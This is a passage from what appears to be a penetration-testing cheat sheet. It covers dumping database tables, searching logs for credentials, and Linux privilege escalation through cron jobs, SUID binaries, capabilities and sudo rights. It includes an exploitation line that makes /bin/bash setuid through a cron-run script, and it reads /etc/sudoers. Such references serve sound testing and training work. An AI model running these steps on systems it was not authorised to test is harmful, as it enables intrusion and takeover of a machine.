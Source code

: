 -> list the tables
```
show tables;
```

-> dump
```
SELECT * FROM <table>;
```

### Other Tips
-> Perform code review on web server files (/var/www/html);
-> Check log files for credentials;

--- 

## Privilege Escalation
### Crontab [PrivEsc]
-> Enumeration  
```
cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab
```

-> Exploitation  
```
echo "chmod +s /bin/bash" >> script.sh
```

### SUID [PrivEsc]
-> Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
```
or  
```
id
find / -perm -u=s -type f -group <group> 2>/dev/null
```

-> Exploitation  
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```

-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```
